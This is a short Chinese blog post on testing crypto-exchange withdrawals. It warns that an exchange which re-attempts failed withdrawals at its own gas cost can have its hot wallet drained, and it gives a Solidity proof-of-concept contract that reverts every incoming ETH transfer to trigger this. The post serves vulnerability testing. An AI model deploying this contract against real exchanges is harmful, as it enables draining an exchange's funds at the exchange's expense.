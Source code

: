 ```yaml
---
title: "中心化交易所提现测试-Gas消耗测试"
date: 2023-06-29T0:18:30-04:00
categories:
  - blog
tags:
  - experience
---
```


## 中心化交易所提现测试-Gas消耗测试

在测试提现功能的时候，需要留意下如果提现失败的场景，用户是否需要继续重新支付Gas Fee，如果需要重新支付Gas Fee的情况，那就没问题；如果是无需用户重新支付Gas Fee的情况就需要注意了，之前在挖掘漏洞的过程中就遇到过类似的情况，提现的时候只收了一次Gas Fee，提现的交易被合约回退了以后，交易所还会继续尝试提现（此时Gas Fee由交易所自己出），这种设计可能会导致热钱包资金被耗尽。

Poc:
```
pragma solidity ^0.8.0;


contract Burn{
    address private owner ;
    constructor() payable{
        owner = msg.sender;
    }


    function transferEth(address payable _addr,uint256 _value) external payable{
        require(owner == msg.sender,"!owner!");
        _addr.transfer(_value);
    }


    fallback() payable external{
        revert();
    }
    receive() payable external {
        revert();                          
    }
}

```
